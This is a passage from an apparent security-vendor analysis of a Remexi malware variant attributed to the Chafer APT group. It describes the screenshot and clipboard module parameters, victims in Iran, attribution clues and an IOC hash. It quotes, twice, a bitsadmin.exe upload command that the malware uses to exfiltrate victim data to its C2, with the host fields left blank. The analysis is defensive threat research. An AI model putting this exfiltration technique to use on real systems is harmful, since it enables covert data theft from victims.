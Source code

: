 
Size
101 888



Instead of implementing this auxiliary module in the form of a dynamic linked library with its corresponding exported functions, the developers decided to use a standalone executable started by events.exe with the following parameters:



Parameter
Description


-scr
Screenshot file name to save in Cache006 subdirectory, zipped with password from configuration. Can capture all screen (“AllScreen”) or the active window (“ActiveWindow”)


-ms
Screenshot file name to save in Cache006 subdirectory, zipped with password from configuration. Specifies the screen coordinates to take


-zip
Name of password (from configuration data) protected zip archive


-clipboard
Screenshot file name where a bitmap from the clipboard is saved in Cache005 subdirectory, zipped with password from configuration



Data exfiltration
Exfiltration is done through the bitsadmin.exe utility. The BITS mechanism has existed since Windows XP up to the current Windows 10 versions and was developed to create download/upload jobs, mostly to update the OS itself. The following is the command used to exfiltrate data from the victim to the C2:





bitsadmin.exe /TRANSFER HelpCenterUpload /UPLOAD /PRIORITY normal "/YP01__" ""




1

bitsadmin.exe /TRANSFER HelpCenterUpload /UPLOAD /PRIORITY normal "/YP01__" ""




Victims
The vast majority of the users targeted by this new variant of Remexi appear to have Iranian IP addresses. Some of these appear to be foreign diplomatic entities based in the country.
Attribution
The Remexi malware has been associated with an APT actor called Chafer by Symantec.
One of the human-readable encryption keys used is “salamati”. This is probably the Latin spelling for the word “health” in Farsi. Among the artifacts related to malware authors, we found in the binaries a .pdb path containing the Windows user name “Mohamadreza New”. Interestingly, the FBI website for wanted cybercriminals includes two Iranians called Mohammad Reza, although this could be a common name or even a false flag.
Conclusions
Activity of the Chafer APT group has been observed since at least 2015, but based on things like compilation timestamps and C&C registration, it’s possible they have been active for even longer. Traditionally, Chafer has been focusing on targets inside Iran, although their interests clearly include other countries in the Middle East.
We will continue to monitor how this set of activity develops in the future.
Indicators of compromise
File hashes
events.exe
028515d12e9d59d272a2538045d1f636